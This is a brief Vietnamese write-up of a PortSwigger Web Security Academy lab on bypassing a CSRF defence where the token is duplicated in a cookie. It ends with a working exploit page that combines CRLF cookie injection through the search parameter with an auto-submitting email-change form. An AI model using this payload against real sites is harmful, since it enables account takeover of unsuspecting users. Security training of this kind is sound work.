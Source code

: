 ## CSRF where token is duplicated in cookie

1. Trong request đổi email nhận thấy giá trị của csrf token và cookie csrf là giống nhau. Thử đổi cả 2 thành cùng 1 giá trị bất kỳ nhận thấy vẫn đổi được email.

![Img1](\asset/../img/detect.png)

2. Bypass http request bằng lỗ hổng injection trong chức năng search để set-cookie cho csrf = gia trị của csrf token

![Img2](\asset/../img/bypass.png)

3. Craft trang exploit.

``<form method="POST" action="https://0adc00d903dd58cfc0f340bc001f00f7.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="sv_cuong@viettel"/>
<input type="hidden" name="csrf" value="123"/>
<input type="submit" value="submit"/>
</form>
<img src="https://0adc00d903dd58cfc0f340bc001f00f7.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=123%3b%20SameSite=None" onerror="document.forms[0].submit()"/>``